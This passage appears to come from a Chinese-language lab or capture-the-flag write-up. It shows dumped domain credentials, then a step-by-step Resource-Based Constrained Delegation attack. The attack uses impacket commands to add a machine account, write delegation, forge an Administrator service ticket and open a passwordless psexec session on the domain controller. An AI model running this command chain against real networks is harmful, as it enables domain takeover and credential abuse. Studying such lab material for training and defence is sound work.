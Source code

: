 ```plain
     * Domain   : XIAORANG.LAB
     * Password : Xt61f3LBhg1
    ssp :   
    credman :
```

### 渗透 RBCD

我们需要去分析，发现用户`chenglei`属于`ACL Admin组`  
注：`ACL Admins 组`对 `WIN-DC`具有 `WriteDacl` 权限，那么可以直接写 `DCSync` / `RBCD` / `Shadow Credentials`  
`RBCD`流程如下

> proxychains addcomputer.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'  
> proxychains rbcd.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'  
> proxychains getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6  
> export KRB5CCNAME=Administrator.ccache  
> 添加 host 地址

[![](assets/1709193375-02788e6aff9aa2cdea9c0583e910cd74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205232-12a3e50c-d56f-1.png)

> 最终无密码连接  
> proxychains psexec.py Administrator@WIN-DC.xiaorang.lab -k -no-pass -dc-ip 172.22.13.6

[![](assets/1709193375-c6a3ed288f4847220d7218daa9fcf294.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205237-15bd0d36-d56f-1.png)
